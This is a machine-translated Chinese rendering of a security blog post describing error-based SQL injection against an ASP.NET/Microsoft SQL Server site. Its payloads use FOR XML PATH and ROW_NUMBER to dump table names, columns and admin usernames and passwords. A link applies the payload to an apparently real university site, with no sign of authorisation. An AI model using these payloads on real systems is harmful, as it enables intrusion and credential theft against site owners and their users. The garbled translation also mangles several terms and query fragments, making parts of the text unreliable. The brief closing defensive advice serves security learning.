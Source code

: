 # SQL 注入数据提取通过。NET framework 错误。

> 原文：<https://infosecwriteups.com/sql-injection-data-extraction-through-net-framework-error-ec9972858321?source=collection_archive---------0----------------------->

你好，我是 Atmanand Nagpure(proghax333)。我是一名计算机研究员，也是一名黑客。这是一个关于我如何想出一种方法，通过产生。NET 未处理的异常。这种技术适用于原始查询中有连接、联合或其他内容的地方。

**问题:**
所以，我面临的问题是:我在一个网站上尝试基于联盟的注射，但是当我尝试风格的注射的*订单时，网站没有给我响应中适当的列数。它给出了连接查询组中第一个表的列数。因此，我试图找出另一种从查询中提取数据的方法。*

有趣的是，从注入和无效输入中，我发现服务器技术是 Microsoft SQL server。所以，决定搜寻一些战功。但是，它们不起作用。

**记住，我是在尝试提取数据。没有尝试执行插入查询或更新查询。**

因此，我在附加到原始查询的 AND 语句中尝试了非封闭字符串比较。这是它的样子:

网址:[http://www.example.com/Department/FacultyDetailViewN.aspx?Id=](http://faculty.bamu.ac.in/Department/FacultyDetailViewN.aspx?Id=817%27%20and%201=%22%20--%20-+) 817 '和 1 = "--+

![](img/be948b39583f4921bfba79b615c8fa9c.png)

比较 1= "，其中"是非封闭字符串。产生了一些数据的异常。

好吧，现在我真的有动力了。我开始想，我们可以以某种方式提取结果错误中的数据。让错误出现。通过错误提取数据。

**解决方案:**

因此，在牢记这一愿景后，我开始编写一个嵌套的 SQL 查询，并将其与整数 1 进行比较，如下所示:

？Id=817 '和 1=(从 information_schema.tables 中选择 table _ name

它给了我这个…嗯…是的…但是，这不是真正的大问题…

![](img/53be2d91d8a0d60518061151c7b1036b.png)

是的…这是行不通的，因为它返回多个值。不过，修好它没什么大不了的。

所以，我决定只返回一行作为查询结果。出于测试目的，我使用了 *select top 1，*返回表格的第一行。所以，是的…我用了它，瞧！我从 information_schema.tables 中获得了第一个 table_name！

？Id=817 '和 1=(从 information_schema.tables 中选择前 1 个表名)—+

![](img/f70974b8709746473c5078332408180c.png)

瞧啊。从 information_schema 表中获取了第一个 table_name。

因此，在解决了第一个问题之后，又出现了另一个与 SQL Server 语言语法相关的问题:MSSQL 没有' **LIMIT m，n** ' 语法！！！没有测距操作员！！！现在该怎么办？因为，比较只能发生在单值之间。

然后，我发现使用了一个很棒的 SQL Server hack，它将所有行连接成一个 XML。传说中的*FOR XML(')*hack！

**注意:**DB _ NAME()函数返回 MSSQL 中当前数据库的名称。

我是这样做的:
？Id=817 '和 1=(select cast(concat(db_name()，0x3a，0x3a，table_name，0x0a)as varchar(8000))from information _ schema . tables for XML path('))—+

![](img/577be073b0f71e578ce1d68345676ce7.png)

以下是数据库中的表格。

现在，下一步是获取 Admin_login 表的列。只是使用了通用的 *where* 条件。

？Id=817 '和 1=(select cast(concat(db_name()，0x3a，0x3a，column_name，0x0a)as varchar(8000))from information _ schema . columns 其中 table _ name = ' Admin _ log in ' for XML path('))—+

![](img/051b2022cc9c58c087c135f20c7979f5.png)

这是表中的列。现在，只需要提取数据。

现在，一切都很简单。我唯一要做的就是对表执行一个简单的 SQL Select 查询:

817 '和 1 =(select cast(UId，0x3a，0x3a，Pwd，0x0a)as varchar(8000))from Admin _ log in for XML path(' ')—+

![](img/32622444eb436aeb2930366c585aaaf1.png)

这就是 Admin_login 表中的用户名:密码

就是这样！那是我的第一次尝试！

**方法二(真的？啊？):**

因此，这里有另一个查询，我使用一个简单的方法来逐行提取数据:ROW_NUMBER()函数。

*817 '和 1=(SELECT concat(0x35，0x34，0x35，0x31，0x35，0x46，0x46，0x46，0x41，0x45，0x39，0x42，0x32，0x37，0x36，0x39，0x31，0x41，0x31，0x30，0x31，0x41，db_name()，0x3a，0x3a，table_name，0x37，0x41，0x46，*

哇哦。大查询…但是那个十六进制的东西只是用来提取数据的，使用一个定制的 PHP 脚本编写，用 CURL API 提取数据。我执行了 GET 请求。脚本检查数据库返回的数据。这是可能的，因为十六进制的东西只不过是一个由 JavaScript RegEx 搜索的唯一字符串。它提取该唯一字符串之间的子字符串。然后使用专门编写的 JavaScript 函数删除重复数据。

![](img/15764a3136f91d43b9fee176559e2818.png)

自定义 PHP 脚本从网站检索数据，并以表格格式呈现。

因此，开发人员必须采取最大的谨慎和预防措施来保证数据的安全，不要将接口和直接对象引用泄露给外人。将您的服务器升级到最新的 Microsoft SQL Server 2017 或更高版本。

今天就到这里吧！

问候，
[atman and nag pure](https://medium.com/@skillzworldtech)(Prog hax 333)。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)